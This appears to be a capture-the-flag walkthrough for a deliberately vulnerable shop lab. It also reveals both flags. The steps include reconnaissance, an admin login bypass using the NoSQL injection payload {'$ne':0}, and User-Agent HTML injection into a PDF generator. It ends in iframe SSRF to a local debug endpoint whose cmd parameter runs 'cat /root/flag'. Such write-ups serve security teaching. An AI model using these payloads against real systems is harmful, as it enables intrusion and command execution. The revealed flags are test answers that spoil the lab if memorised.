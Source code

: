 There are total of 2 flags here.

1. `FLAG{NOSQL_INJECTION_IS_AWESOME_IKODSD}` - _This requires an exploitation of NoSQL Injection_
2. `FLAG{SSRF_IS_AWESOME_UDKSO}` - _This requires an exploitation of SSRF -> RCE_

### Steps to reproduce.

1. First of all, let's port scan the server.
2. Let's run `nmap -sV -sC <ip>`
3. You will receive the following output.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-05 13:39 UTC
Nmap scan report for 192.168.8.100
Host is up (0.00059s latency).
Not shown: 994 closed ports
PORT    STATE    SERVICE    VERSION
22/tcp  open     ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
25/tcp  filtered smtp
80/tcp  open     http       Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://1337shop.com/
443/tcp open     ssl/https  Apache/2.4.41 (Ubuntu)
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
465/tcp filtered smtps
587/tcp filtered submission
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.05 seconds
```

4. As you can see, there is a HTTP server running at port 80.
5. Let's visit that port and You will notice the that it is redirecting us to `http://1337shop.com/`
6. ![](./assets/1.png)
7. But, that domain is not registered and there is nothing.
8. So, let's try pointing `1337shop.com` to `<machine-ip>`
9. Use the `/etc/hosts` file _(Linux)_ or `C:\Windows\system32\drivers\etc\hosts` file to do this.
10. Add the following line to `/etc/hosts`

```
192.168.8.100   1337shop.com
```

11. Now, visit `http://1337shop.com`.
12. Now you will see a e-commerce website.
13. Let's run `dirsearch` to discover more hidden directories.
14. You will receive following results.
15. ![](./assets/2.png)
16. As you can see there are some interesting directories like `/debug` and `/admin`
17. When we visit `/debug`, we get the following response.

```json
{
    "success": false,
    "error": "This endpoint only allows traffic from 127.0.0.1:3000"
}
```

18. And, `/admin` redirects us to `/admin/login`, which is a login page.
19. Now, let's try the credentials `admin:admin`
20. Notice that the credentials are being sent using `application/json` content type.
21. And, let's try some NoSQL injections here.
22. We can use this payload to bypass the auth `{"$ne":0}`. _(Payload: Not equals to 0)_
    ![](./assets/4.png)
    ![](./assets/5.png)
    ![](./assets/6.png)
23. Now, we can access the admin panel.
24. In the HTML Source code of `/admin`, first flag can be found. - `FLAG{NOSQL_INJECTION_IS_AWESOME_IKODSD}`
    ![](./assets/7.png)
25. Now, let's explore the admin panel.
26. You will notice that the NoSQL injection breaked the session and most of the features are not working here. _(These features are not implemented in the source code)_
27. There is an interesting feature called `Download Reports -> Previous Login Logs`
    ![](./assets/8.png)
28. When we click it, it downloads a PDF document from `http://1337shop.com/admin/logs/prev-logins?download=1`
    ![](./assets/9.png)
29. As you can see whenever someone logs in, browser's user-agent is logged here.
30. Let's check for any HTML injections there.
31. Send `<h1>Test <u>Underlined</u></h1>` in the User-Agent header in the login request.
    ![](./assets/10.png)
32. Now, request the PDF document again.
33. You will notice the HTML content there.
    ![](./assets/11.png)
34. Now, let's try requesting `http://127.0.0.1:3000/debug` using an `iframe` tag. _(There is a hint for this at http://1337shop.com/debug)_
35. We can use the payload -> `<iframe src="http://127.0.0.1:3000/debug">` in the User-Agent header in the login request.
36. Now, request the PDF document again.
    ![](./assets/12.png)
37. So, the response is

```json
{
    "success": false,
    "error": "Missing 'cmd' parameter"
}
```

38. Now use the `cmd` parameter in the `http://127.0.0.1:3000/debug` to get RCE in the system
39. We can read the final flag by using `<iframe src="http://127.0.0.1:3000/debug?cmd=cat%20/root/flag">`
    ![](./assets/13.png)
    ![](./assets/14.png)
40. That's it.

Thanks!
